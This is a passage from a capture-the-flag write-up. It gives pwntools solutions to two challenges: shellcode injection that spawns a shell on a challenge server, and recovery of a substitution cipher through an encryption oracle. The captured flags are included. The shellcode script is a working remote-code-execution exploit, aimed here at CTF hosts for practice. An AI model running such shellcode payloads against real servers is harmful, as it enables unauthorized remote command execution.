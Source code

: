 
The server runs anything we send to it, so we can spawn a reverse shell by sending some machine code. `pwntools` makes this really easy.

```py
#!/usr/bin/env python3
from pwn import *
context.binary = ELF('./green_shell')
p = remote("oreos.imaginary.ml", 12345)

payload = asm(shellcraft.sh())
p.sendline(payload)
p.interactive()
```

`ictf{it's-a_me_sh3llc0d10}`

---

# Wordbook

> Points: 50 | Category: Misc | Author: FIREPONY57

"I'm going to learn some new words..." \*opens book

`nc imaginary.ml 10069`

---

In order to solve this challenge, we need to map each encrypted value to it's plaintext value. The program allows us to encrypt whatever we want, so we can pass through all the printable characters and store both the plaintext and encrypted text as a key-value pair inside of a dictionary. From here, we just need to get each encrypted character's corresponding plaintext from the dictionary and save it to a string.

```py
from pwn import *
import string

chars = string.printable
r = remote("imaginary.ml", 10069)

encryptedFlag = r.recvS().split("\n")[1]
r.sendline(chars.encode())
obj = dict(zip(r.recvS().split("\n")[1], chars))

[ print(obj[i], end="") for i in encryptedFlag ]
```

`ictf{d1ct10n@ri3s_m@k3_y0u_sm@r73r}`

---

# Introductory ICICLE
